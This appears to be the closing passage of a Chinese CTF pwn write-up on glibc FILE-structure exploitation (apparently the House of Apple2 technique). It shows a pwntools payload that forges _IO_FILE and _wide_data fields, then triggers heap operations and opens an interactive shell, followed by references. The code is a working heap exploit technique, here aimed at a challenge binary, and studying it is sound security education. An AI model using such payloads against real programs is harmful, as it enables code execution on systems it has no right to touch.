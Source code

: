 ```python
payload = flat({
    0x8: target_addr - 0x20,
    0x10: {
        0: {
            0: bytes(f1),
            0xe0: { # _wide_data->_wide_vtable
                0x18: 0, # f->_wide_data->_IO_write_base
                0x30: 0, # f->_wide_data->_IO_buf_base
                0xe0: fake_IO_FILE + 0x200
            },
            0x200: {
                0x68: libc.sym.puts
            }
        },
        0xa80: [0, 0xab1]
    }
})

Read(5, payload)
Del(2)
Add(large)

Bye()

# interact with the shell
io.interactive()
```

tbc: 补充调试和ORW版本exp...





## References

[1] https://elixir.bootlin.com/glibc/glibc-2.35/source

[2] https://bbs.kanxue.com/thread-275968.htm

[3] https://ctf-wiki.org/pwn/linux/user-mode/io-file/fsop/

[4] https://bbs.kanxue.com/thread-273832.htm

[5] https://yuan0x1elegy.love/posts/pwn/io_file/house_of_apple2.html
